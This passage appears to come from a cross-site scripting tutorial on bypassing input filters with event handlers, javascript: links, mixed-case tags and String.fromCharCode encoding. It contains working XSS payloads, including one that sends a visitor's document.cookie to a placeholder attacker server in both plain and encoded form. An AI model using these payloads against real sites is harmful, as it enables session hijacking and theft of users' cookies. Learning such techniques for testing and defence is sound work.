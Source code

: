```js
<img src="123" onerror="alert('test');"/>
```
 
Or use special url schemes,
```js
<a href="javascript:alert('test')>Click me!</a>"
```


###### Capitalisation and Encoding


Some times we might be able to bypass  filters by just capitalising or encoding the tags.

Suppose, `<script>` is filtered out. Just by changing it to `<scRIPT>` we might be able to bypass the filter.

Even though the string is modified browser will read it as script tag.

Imagine a scenario where single quotes or double quotes are blocked, so we can't write any string into XSS payload directly.

`Original payload:`
```js
<script>location='http://attacker_server_ip/c= '+document.cookie;</script>
```

`' http://attacker_server_ip/c= '` This part of our payload will be exclude for this we can use fromCharCode() function of javascript.

Which maps numeric codes to ASCII.

`' http://attacker_server_ip/c= '` will be changed to,
```js
String.fromCharCode(104, 116, 116, 112, 58, 47, 47, 97, 116, 116, 97, 99, 107,101, 114, 95, 115, 101, 114, 118, 101, 114, 95, 105, 112, 47, 63, 99, 61)
```

This will bypass the filter.

`New payload:`
```js
<script>location=String.fromCharCode(104, 116, 116, 112, 58, 47,47, 97, 116, 116, 97, 99, 107, 101, 114, 95, 115, 101, 114, 118,101, 114, 95, 105, 112, 47, 63, 99, 61)+document.cookie;</script>
```


My webpage to convert string to ASCII character mapping:
```js
https://ashique-thaha.github.io/ascii-character-mapper/
```


There are many ways to bypass filter's logic. for example ,

The filter might be checking for script tag and removing it only once but we can specify two script tags effectively resulting in the payload we want.